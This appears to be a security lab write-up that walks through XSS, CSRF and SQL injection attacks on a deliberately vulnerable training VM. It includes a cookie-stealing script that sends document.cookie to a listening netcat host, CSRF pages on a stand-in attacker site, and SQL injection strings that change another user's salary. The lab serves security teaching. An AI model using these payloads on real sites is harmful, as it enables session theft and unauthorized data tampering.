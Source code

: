 # Cross-Site Scripting (XSS)

Cross-site scripting (XSS) is a type of security vulnerability that can be found in some web applications. XSS attacks enable attackers to inject client-side scripts into web pages viewed by other users. 

In this lab, students need to exploit this vulnerability to launch an XSS attack on the modified server in our pre-built Ubuntu VM image.

### Task 1: Display an Alert Window when visiting a user's profile

The objective of this task is to embed a JavaScript program in a user's profile. This attack will execute a JavaScript and display an alert window when other users view your profile.

Edit user profiles, such as "description", enter the code below and save, then any user who views your profile will see the alert window.

```html
<script>alert(/XSS/);</script>
```

### Task 2: Stealing Cookies from the Victim’s Machine

In this task, the attacker wants the JavaScript code to send the cookies to himself/herself.

We can do this by having the malicious JavaScript insert an HTML tag (like `<img>` or `<script>`) with src attribute set to the attacker’s machine.

```html
<script>document.write('<script src=http://10.9.0.1:5555?c='+ escape(document.cookie) + ' >');</script>
```

A commonly used program by attackers is netcat (or nc), which, if running with the "-l" option, becomes a TCP server that listens for a connection on the specified port. 

Type the command below to listen on port 5555:

```bash
nc -lknv 5555
```
![xss](./images/xss.png)

# CSRF vulnerabilities

A Cross-Site Request Forgery(CSRF) attack involves a victim user, a trusted site, and a malicious site. The victim user holds an active session with a trusted site while visiting a malicious site. The malicious site injects an HTTP request for the trusted site into the victim user session, causing damages.

### Task 1: CSRF Attack using GET Request

To add a friend to the victim, we need to identify what the legitimate Add-Friend HTTP request (a GET request) looks like. You can use Firefox's "Web Developer Tool" to see a live HTTP requests.

![csrf1](./images/csrf1.png)

Edit `addfriend.html` inside the attacker's docker container with captured GET request:

![csrf2](./images/csrf2.png)

Alice visits `http://www.attacker32.com/addfriend.html`, and Samy appears in Alice's friend list.

![csrf3](./images/csrf3.png)

### Task 2: CSRF Attack using POST Request

After adding himself to Alice’s friend list, Samy wants to do something more. He wants Alice to say “Samy is my Hero” in her profile. 
One way to do the attack is to post a message to Alice’s Elgg account, hoping that Alice will click the URL inside the message. This URL will lead Alice to your (i.e., Samy’s) malicious web site `www.attacker32.com`, where you can launch the CSRF attack.

The server-side script edit.php accepts both GET and POST requests, so you can use the same trick as that in Task 1 to achieve the attack. 

![csrf4](./images/csrf4.png)

Edit `addfriend.html` inside the attacker's docker container with captured GET request:

![csrfpost](./images/csrfpost.png)

After alice visits `http://www.attacker32.com/editprofile.htmlhttp://www.attacker32.com/editprofile.html`, Alice's profile will be modified.

![csrfsucc](./images/csrfpostsucc.png)

# SQLi vulnerabilities

SQL injection is a code injection technique that exploits the vulnerabilities in the interface between web applications and database servers. The vulnerability is present when user’s inputs are not correctly checked within the web applications before being sent to the back-end database servers.

### Task 1: SQL Injection Attack on SELECT Statement

The PHP code `unsafe_home.php` shows how users are authenticated.

![sqli1](./images/sqli1.png)

An idea is to use the SQL injection attack to turn one SQL statement into two, with the second one being the update or delete statement. In SQL, semicolon (;) is used to separate two SQL statements. 

Retrieve database version(Harmless verification, no impact on database):

```
admin' AND extractvalue(rand(),concat(0x3a,version())) #
```

### Task 2: SQL Injection Attack on UPDATE Statement

As shown in the Edit Profile page, employees can only update their nicknames, emails, addresses, phone numbers, and passwords.

The PHP file is located in the /var/www/SQLInjection directory, view `unsafe_edit_backend.php`:

![sqli2](./images/sqliupdate.png)

Into the NickName field. An attacker could change the SQL statement being executed to:

```
"UPDATE credential SET nickname='', salary=1 WHERE Name='Boby';#'"
```

Therefore, we can input the following attack statement to change boby's salary

```
', salary=1 WHERE Name='Boby';#
```

![sqliupdate](./images/sqliedit.png)

![sqlimodify](./images/sqlimodify.png)


